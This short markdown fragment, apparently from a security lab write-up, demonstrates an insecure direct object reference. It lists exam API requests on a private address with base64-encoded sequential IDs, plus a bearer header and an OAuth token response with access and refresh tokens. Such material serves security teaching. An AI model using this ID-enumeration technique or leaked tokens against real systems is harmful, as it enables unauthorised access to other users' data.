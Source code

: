 #### Insecure Direct Object Reference

```
http://192.168.1.22:8000/api/v1/exams/MQ==
http://192.168.1.22:8000/api/v1/exams/Mg==
http://192.168.1.22:8000/api/v1/exams/NTY=
http://192.168.1.22:8000/api/v1/exams/OTM=
```

- Header

```
Key : Authorization
Value : Bearer vYcJ7Y7WWRPahB7BDqwjJGMeoLvBl7
```

```
access_token:vYcJ7Y7WWRPahB7BDqwjJGMeoLvBl7
token_type:Bearer
expires_in:36000
refresh_token:vrjdNe2aeimQyMJVRSCBT4P2zx8qC1
scope:read write groups
```

![](images/2/1.png)

![](images/2/2.png)

![](images/2/3.png)

![](images/2/4.png)

![](images/2/5.png)

![](images/2/6.png)

![](images/2/7.png)

![](images/2/8.png)